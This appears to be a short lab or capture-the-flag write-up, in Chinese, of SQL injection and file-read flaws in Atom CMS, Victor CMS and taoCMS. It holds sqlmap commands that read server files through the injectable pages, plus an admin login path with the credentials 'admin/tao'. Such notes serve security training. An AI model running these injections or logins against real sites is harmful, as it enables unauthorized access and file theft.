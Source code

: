 *靶标介绍：*

Atom CMS v2.0存在sql注入漏洞在/admin/ajax/avatar.php页面

```
sqlmap -u http://eci-2zeewd3dr3xikxneleeu.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1 --file-read "/flag" --batch
```

![image-20230714104254411](%E9%9D%B6%E5%9C%BA.assets/image-20230714104254411.png)

## CVE-2022-26201 Victor CMS v1.0 存在二次注入漏洞

*靶标介绍：*

Victor CMS v1.0 存在二次注入漏洞

```
sqlmap -u http://eci-2ze25zfdfvdsdqnckv0w.cloudeci1.ichunqiu.com/post.php?post=1 --file-read "/flag" --batch
```

## CVE-2022-23316 taoCMS v3.0.2 存在任意文件读取漏洞



*靶标介绍：*

taoCMS v3.0.2 存在任意文件读取漏洞

*收藏：*未收藏

*路径：*

[http://eci-2ze2wzytqkaq5975rl35.cloudeci1.ichunqiu.com:80](http://eci-2ze2wzytqkaq5975rl35.cloudeci1.ichunqiu.com/)

/admin/admin.php?action=frame&ctrl=login

admin/tao
